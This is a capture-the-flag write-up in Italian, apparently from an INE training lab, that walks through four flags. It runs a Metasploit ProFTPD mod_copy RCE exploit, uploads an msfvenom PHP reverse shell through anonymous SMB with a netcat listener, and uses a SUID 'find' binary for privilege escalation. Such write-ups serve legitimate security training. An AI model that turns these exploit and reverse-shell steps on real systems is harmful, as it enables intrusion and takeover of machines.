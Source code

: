 ## Exploitation 3: Mini Writeup

### FLAG1: ProFTPD mod_copy RCE

1. **Carica e configura il modulo Metasploit**  
   ```bash
   msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
   msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options


2. **Imposta le opzioni**

   ```bash
   set RHOSTS     target1.ine.local
   set RPORT      80
   set RPORT_FTP  21
   set SITEPATH   /var/www/html
   set TARGETURI  /
   set TMPPATH    /tmp
   set LHOST      192.40.111.2
   set LPORT      4444
   ```
3. **Esegui l’exploit**

   ```bash
   run
   ```
4. **Recupera la flag**

   ```bash
   cat flag1.txt
   # FLAG1{3c650[REDACTED]fa964d168bc}
   ```
5. **Nota**: la passphrase segreta che compare dopo è **letmein**.

---

### FLAG2: Servizio locale con passphrase

1. **Verifica le porte in ascolto**

   ```bash
   netstat -tuln
   ```

   > Si nota un servizio in ascolto su `127.0.0.1:8888`.
2. **Connettiti in locale**

   ```bash
   nc 127.0.0.1 8888
   ```
3. **Inserisci la passphrase**

   ```
   Enter the secret passphrase: letmein
   ```
4. **Leggi la flag**

   ```bash
   # FLAG2{cb9fc[REDACTED]aca7b39}
   ```

---

### FLAG3: Upload PHP reverse shell via SMB anonimo

1. **Accesso anonimo a SMB**

   ```bash
   smbclient //target2.ine.local/site-uploads -N
   ```
2. **Genera la shell PHP**

   ```bash
   msfvenom -p php/reverse_php \
     LHOST=192.40.111.2 LPORT=4444 \
     -f raw -o shell.php
   ```
3. **Carica la shell su SMB**

   ```bash
   smb> put shell.php
   ```
4. **Avvia il listener**

   ```bash
   nc -lvnp 4444
   ```
5. **Triggera la shell via HTTP**

   ```bash
   curl http://target2.ine.local/site-uploads/shell.php
   ```
6. **Recupera la flag**

   ```bash
   cat /flag3.txt
   # FLAG3{bc36e47[REDACTED]1251}
   ```

---

### FLAG4: Privilege escalation via SUID `find`

1. **Trova i binari SUID**

   ```bash
   find / -perm -4000 -type f 2>/dev/null
   ```

   > Tra gli altri, `/usr/bin/find` è SUID root.
2. **Usa `find` per leggere la flag di root**

   ```bash
   /usr/bin/find / -exec cat /root/flag4.txt \; -quit
   ```
3. **Output**

   ```
   FLAG4{447ddc1[REDACTED]a9be3bf2}
   ```

